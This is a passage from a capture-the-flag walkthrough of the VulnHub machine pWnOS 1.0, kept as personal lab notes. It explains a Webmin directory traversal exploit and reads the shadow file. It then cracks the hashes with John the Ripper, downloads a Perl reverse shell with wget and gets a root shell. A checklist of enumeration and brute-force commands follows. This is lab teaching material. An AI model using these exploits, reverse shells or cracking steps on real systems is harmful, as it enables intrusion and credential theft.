An attacker could escape the intended web directory and read arbitrary files like `/etc/passwd`, `/etc/shadow`, config files, etc.

No login required.

---

## 2. High-level exploit idea

The exploit does this:

1. Access `/unauthenticated/` (no auth needed)
2. Abuse directory traversal using a special encoding: `..%01`
3. Traverse far enough up the filesystem
4. Append any file path you want
5. Webmin fails to sanitize it and happily returns the file contents

So conceptually, the request becomes:

```
/unauthenticated/../../../../../../../../etc/shadow
```

But with a twist that bypasses filters.

---

## 3. The weird part: `..%01`

This is the heart of the exploit.

### What `%01` is

`%01` is URL-encoded **ASCII 0x01**, also called `SOH` (Start of Heading).

It is a **non-printable control character**.

So:

```
..%01
```

Is really:

```
.. + <control character>
```

---

## 4. Why `..%01` bypasses security checks

Back in 2006, Webmin did something like:

* Check path for `"../"` or `".."` to prevent traversal
* Then later normalize or decode the path differently

The bug was:

* The **security check happened before proper decoding**
* Or decoding stripped `%01` later in the request lifecycle

So Webmin saw:

```
"..%01"
```

And thought:

> This is not `".."`, looks safe

Later, when the filesystem path was resolved, `%01` was ignored or stripped, leaving:

```
".."
```

Boom. Directory traversal.

This is a classic **inconsistent decoding bug**.

---

## 5. Why repeat it 60 times?

```php
$z = "/..%01";
for ($i=0;$i<60;$i++) {
    $z.="/..%01";
}
```

This builds something like:

```
/..%01/..%01/..%01/..%01/... (60 times)
```

Reason:

* The attacker does not know how deep Webmin is installed
* Repeating traversal guarantees you reach filesystem root `/`
* Extra `..` beyond `/` just stay at `/`

This is a brute-force traversal depth.

---

## 6. Final request being sent

```php
$target = $http."://".$host.":".$port."/unauthenticated".$z."/".$file;
```

Example:

```
http://localhost:10000/unauthenticated
/..%01/..%01/..%01/.../etc/shadow
```

After decoding and normalization inside Webmin, it becomes effectively:

```
/etc/shadow
```

And Webmin returns it as HTTP response content.

---

## 7. Why `/unauthenticated` matters

Webmin had a design flaw:

* Some modules were reachable without login
* They were assumed safe because of path checks

Once path traversal was possible:

* Auth checks were irrelevant
* File read happened before permission enforcement

So this is:

* **Pre-auth**
* **Remote**
* **Arbitrary file read**

Which is why it was a big deal.

---

## 8. Why cURL options matter here

```php
curl_setopt($ch,CURLOPT_SSL_VERIFYPEER,FALSE);
```

Webmin often runs on HTTPS with self-signed certs.
Disabling verification avoids TLS errors.

Timeout is just hygiene.

---

## 9. What this teaches you as a pentester

This exploit is a goldmine of lessons:

1. **Input validation must happen after decoding**
2. **Never mix encoded and decoded checks**
3. **Control characters are dangerous**
4. **Traversal prevention via string matching is fragile**
5. **Unauthenticated endpoints are attack surface**
6. **Old software often fails in boring but deadly ways**

Modern frameworks fix this by:

* Canonicalizing paths first
* Using realpath() and jail directories
* Denying control characters entirely

---
---

# Foothold 🦶

let's copy the content from etc/shadow into a text editor

then we reuse the same command , but using etc/passwd instead. copy of content of that file also

There is a tool called "**unshadow**" that combines these two files.

### What `unshadow` actually does

`unshadow` **merges** `/etc/passwd` and `/etc/shadow` into a single file format suitable for cracking tools.

- Matches users by username
- Replaces the `x` field with the actual hash
- Outputs a clean combined file

No cracking yet. Just preparation.

### Mental model to remember

Think of it like this:

- `/etc/passwd` = address book
- `/etc/shadow` = locked safe
- `unshadow` = putting names on the safes
- `john` = the safe cracker

Think of it as a normalization tool, not a cracking requirement

- **Shadow only** → quick and dirty cracking
- **Passwd + shadow + unshadow** → clean, correct, professional workflow

```sh
# unshadow passwd_pwn shadow_pwn > pwnos_hash
┌──(kali㉿kali)-[~]
└─$ unshadow passwd_pwn shadow_pwn > pwnos_hash

# Now it's time to use John The Ripper
┌──(kali㉿kali)-[~]
└─$ john --wordlist=/usr/share/wordlists/rockyou.txt pwnos_hash 
Warning: detected hash type "md5crypt", but the string is also recognized as "md5crypt-long"
Use the "--format=md5crypt-long" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 5 password hashes with 5 different salts (md5crypt, crypt(3) $1$ (and variants) [MD5 256/256 AVX2 8x3])
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
0g 0:00:01:26 47.08% (ETA: 23:02:10) 0g/s 77954p/s 389797c/s 389797C/s jst425..jsn82005cp
0g 0:00:01:31 50.65% (ETA: 23:02:07) 0g/s 79107p/s 395539c/s 395539C/s ily4600..ilvnial
h4ckm3           (vmware)     
1g 0:00:02:46 DONE (2026-01-27 23:01) 0.005999g/s 84598p/s 383980c/s 383980C/s !!!0mc3t..*7¡Vamos!
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 

```

So we got the password h4ckm3 for the username vmware

Let's try connect with SSH with this!

## SSH -  vmware:h4ckm3


```bash
# SSH Connection as vmware
# ssh vmware@192.168.56.39
┌──(kali㉿kali)-[~]
└─$ ssh vmware@192.168.56.39
Unable to negotiate with 192.168.56.39 port 22: no matching host key type found. Their offer: ssh-rsa,ssh-dss
```

As you can see, we get some kind of error. This is a classic old-box vs modern-Kali problem. You are not doing anything wrong, your system is just more secure than the tutorial author’s.

Translation:

- Your Kali SSH client refuses **weak host key algorithms**
- The target SSH server is **old** and only supports:
    - `ssh-rsa` (SHA1-based)
    - `ssh-dss` (DSA, completely broken)

Modern OpenSSH disables these **by default**.

The tutorial likely:

- Uses an older Kali
- Uses an older OpenSSH
- Or already has permissive SSH config


---

## Why this happens now (important context)

OpenSSH 8.8+ disabled `ssh-rsa` by default because:

- SHA1 is cryptographically broken
- It allows downgrade and MITM attacks
    

So your client says: I will not accept these weak keys unless you explicitly tell me to
This is actually a good thing.

## The quick fix (one command)

Tell SSH to temporarily allow `ssh-rsa`:

```bash
ssh -o HostKeyAlgorithms=+ssh-rsa -o PubkeyAcceptedAlgorithms=+ssh-rsa vmware@192.168.56.39
```

#### That should connect immediately.

```bash
┌──(kali㉿kali)-[~]
└─$ ssh -o HostKeyAlgorithms=+ssh-rsa -o PubkeyAcceptedAlgorithms=+ssh-rsa vmware@192.168.56.39
The authenticity of host '192.168.56.39 (192.168.56.39)' can't be established.
RSA key fingerprint is: SHA256:+C7UA7dQ1B/8zVWHRBD7KeNNfjuSBrtQBMZGd6qoR9w
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.56.39' (RSA) to the list of known hosts.
** WARNING: connection is not using a post-quantum key exchange algorithm.
** This session may be vulnerable to "store now, decrypt later" attacks.
** The server may need to be upgraded. See https://openssh.com/pq.html
vmware@192.168.56.39's password: 
Linux ubuntuvm 2.6.22-14-server #1 SMP Sun Oct 14 23:34:23 GMT 2007 i686

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.
Last login: Fri Jun 20 14:35:37 2008

vmware@ubuntuvm:~$ ls -al
total 28
drwxr-xr-x 3 vmware vmware 4096 2008-06-19 10:11 .
drwxr-xr-x 6 root   root   4096 2008-06-11 09:26 ..
-rw------- 1 vmware vmware   65 2008-06-20 14:39 .bash_history
-rw-r--r-- 1 vmware vmware  220 2008-06-10 07:10 .bash_logout
-rw-r--r-- 1 vmware vmware 2298 2008-06-10 07:10 .bashrc
-rw-r--r-- 1 vmware vmware  566 2008-06-10 07:10 .profile
drwx------ 2 vmware vmware 4096 2008-06-12 11:19 .ssh
-rw-r--r-- 1 vmware vmware    0 2008-06-10 12:43 .sudo_as_admin_successful

# Let's check for other users 
vmware@ubuntuvm:~$ cd /home                                                                                          
vmware@ubuntuvm:/home$ ls -al                                                                                        
total 24                                                                                                             
drwxr-xr-x  6 root   root   4096 2008-06-11 09:26 .                                                                  
drwxr-xr-x 21 root   root   4096 2008-06-10 06:37 ..                                                                 
drwxr-xr-x  3 obama  obama  4096 2008-06-19 10:10 obama                                                              
drwxr-xr-x  2 osama  osama  4096 2008-06-11 11:18 osama
drwxr-xr-x  3 vmware vmware 4096 2008-06-19 10:11 vmware
drwxr-xr-x  2 yomama yomama 4096 2008-06-11 11:27 yomama
```



we have some users on this machine except vmware
- obama
- osama
- yomama

## 😄😅 ROFL - TOP KEK LOL - YO MAMA 🤣😂

---
---

# Privilege Escalation

To begin, we need to examine the permissions assigned to users to assess their privileges on the system. This can be achieved by executing commands like " **_sudo -l_** " to view the commands the current user can run with elevated privileges.


```bash
# Privilege Escalation
vmware@ubuntuvm:/home$ sudo -l                                                                                       
[sudo] password for vmware:
Sorry, user vmware may not run sudo on ubuntuvm.
```

 Let's gather more details by checking the kernel version using the " **_uname -a_** " command.

```bash
vmware@ubuntuvm:/home$ uname -a
Linux ubuntuvm 2.6.22-14-server #1 SMP Sun Oct 14 23:34:23 GMT 2007 i686 GNU/Linux
```

anyway, we will use a perl-reverse-shell script against this machine, by changing the script extension to cgi. (Common Gateway Interface).
The main idea is we use the same exploit from before with the **1997.php**, but we will run the reverse shell script instead of etc/shadow

```bash
┌──(kali㉿kali)-[~]
└─$ cp /usr/share/webshells/perl/perl-reverse-shell.pl pshell.cgi
```

Change the IP address inside the script and prepare netcat 🐈🐈‍⬛😻

```bash
nc -lvnp 1234
```

now we have to transfer this file, here we can use a python server. 🐍

```bash
┌──(kali㉿kali)-[~]
└─$ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...

# Now on the target machine (SSH)
# first we change the directory to /tmp
vmware@ubuntuvm:~$ cd /tmp
vmware@ubuntuvm:/tmp$ wget http://192.168.56.52:8000/pshell.cgi
--17:08:13--  http://192.168.56.52:8000/pshell.cgi
           => `pshell.cgi'
Connecting to 192.168.56.52:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3,716 (3.6K) [application/octet-stream]

100%[===================================================================================================================================>] 3,716         --.--K/s             

17:08:13 (157.92 MB/s) - `pshell.cgi' saved [3716/3716]

vmware@ubuntuvm:/tmp$

```


```bash
# make sure we have permission to execute the file 📃🔫😬
vmware@ubuntuvm:/tmp$ ls -al
total 20
drwxrwxrwt  3 root   root   4096 2026-01-27 17:08 .
drwxr-xr-x 21 root   root   4096 2008-06-10 06:37 ..
-rw-r--r--  1 vmware vmware 3716 2026-01-27 17:02 pshell.cgi
-rw-------  1 root   root     29 2026-01-27 12:25 sqldCq34S
drwxr-xr-x  2 root   root   4096 2026-01-27 12:25 .winbindd
vmware@ubuntuvm:/tmp$ chmod +x pshell.cgi 
vmware@ubuntuvm:/tmp$ ls -al             
total 20
drwxrwxrwt  3 root   root   4096 2026-01-27 17:08 .
drwxr-xr-x 21 root   root   4096 2008-06-10 06:37 ..
-rwxr-xr-x  1 vmware vmware 3716 2026-01-27 17:02 pshell.cgi
-rw-------  1 root   root     29 2026-01-27 12:25 sqldCq34S
drwxr-xr-x  2 root   root   4096 2026-01-27 12:25 .winbindd
vmware@ubuntuvm:/tmp$

# Now back to kali Linux, we use the 1997.php again, but a different file to execute
┌──(kali㉿kali)-[~/Downloads]
└─$ php 1997.php 192.168.56.39 10000 http /tmp/pshell.cgi
Attacking 192.168.56.39
---------------------------------
Browser IP address appears to be: 192.168.56.52<p>
---------------------------------
Coded by joffer , http://securitydot.net

# milw0rm.com [2006-07-09] 

# On our Netcat terminal, we got a connection with root access! 
┌──(kali㉿kali)-[~]
└─$ nc -lvnp 1234                
listening on [any] 1234 ...
connect to [192.168.56.52] from (UNKNOWN) [192.168.56.39] 36125
 17:16:41 up  4:51,  2 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM              LOGIN@   IDLE   JCPU   PCPU WHAT
vmware   pts/0    192.168.56.1     16:15   26:08m  0.10s  0.10s -bash
vmware   pts/1    192.168.56.52    17:08    7:28m  0.07s  0.07s -bash
Linux ubuntuvm 2.6.22-14-server #1 SMP Sun Oct 14 23:34:23 GMT 2007 i686 GNU/Linux
uid=0(root) gid=0(root)
/
/usr/sbin/apache: can't access tty; job control turned off
# whoami
root

# python -c "import pty;pty.spawn('/bin/bash')"   
root@ubuntuvm:~# whoami
whoami
root
root@ubuntuvm:~# ls -al
ls -al
total 28
drwxr-xr-x  4 root root 4096 Jun 12  2008 .
drwxr-xr-x 21 root root 4096 Jun 10  2008 ..
-rw-r--r--  1 root root  775 Jun 20  2008 .bash_history
-rw-r--r--  1 root root 2227 May 15  2007 .bashrc
-rw-------  1 root root    0 Jun 11  2008 .mysql_history
-rw-r--r--  1 root root  141 May 15  2007 .profile
drwx------  2 root root 4096 Jun 11  2008 .ssh
drwxr-xr-x  2 root root 4096 Jun 12  2008 keys
```

too bad this machine doesn't have a fancy flag art to find. 🚩🚩🚩



---
---

# BONUS

```bash
# Show all passwords hashes of the machine (needs root access of target machine)
root@VulnableComputer:~# cat /etc/shadow

# Show only hashes of the machine root (needs root access of target machine)
root@ubuntuvm:~# awk -F: '/^root/{print $2}' /etc/shadow
awk -F: '/^root/{print $2}' /etc/shadow
$1$LKrO9Q3N$EBgJhPZFHiKXtK0QRqeSm/
```


---
---

# VulnHub Pentest Notes - [pWnOS 1.0]  
🔍 **Target IP:** `192.168.56.39`  
🖥 **OS:** Linux/Windows (Update accordingly)  
📅 **Date:** 2026-01-27  

---
## Resources & References  
📌 [VulnHub Link](https://www.vulnhub.com/entry/pwnos-10,33/)  
📌 [YouTube Walkthrough](https://www.youtube.com/watch?v=mu2wrrSGFGA)  

---
# 🕵️ Enumeration  

### 🛜 Network Discovery  
- [ ] `sudo netdiscover -i eth1`
- [ ] `netdiscover -r <target-range>`  
- [ ] `arp-scan -l`  

### 🌐 Port Scanning  
- [ ] `nmap -sC -sV <IP>` (Basic Scan)
- [ ] `nmap -sC -sV <IP> -p-` (For all ports)
- [ ] `nmap -sC -sV -p- -oN nmap_scan.txt <IP>`
- [ ] `rustscan -a <IP> -- -A -oN rustscan.txt`  

### 🕸️ Web Enumeration  
- [ ] `gobuster dir -u http://<IP>/ -w /usr/share/wordlists/dirb/common.txt` (Check for any directories)
- [ ] `gobuster dir -u http://<IP>/ -w /usr/share/wordlists/dirb/common.txt -x php,html,txt`  (Directories with file extensions)
- [ ] `nikto -h http://<IP>/`  
- [ ] `hydra -l <Login Name> -P /usr/share/wordlists/rockyou.txt ftp://<IP>`

### 🔐 Credentials & SMB/NFS  
- [ ] `enum4linux -a <IP>`  
- [ ] `smbclient -L //<IP> -N`  
- [ ] `showmount -e <IP>`  

---
# 🦶 Initial Foothold  
- [ ] Identify possible exploits  
	- [ ] whatweb or Wappalyzer
- [ ] Try default credentials 🤡  
- [ ] Try Linpeas.sh 🫛
- [ ] Use Metasploit/Manual Exploitation  
- [ ] Upload and use a reverse shell  

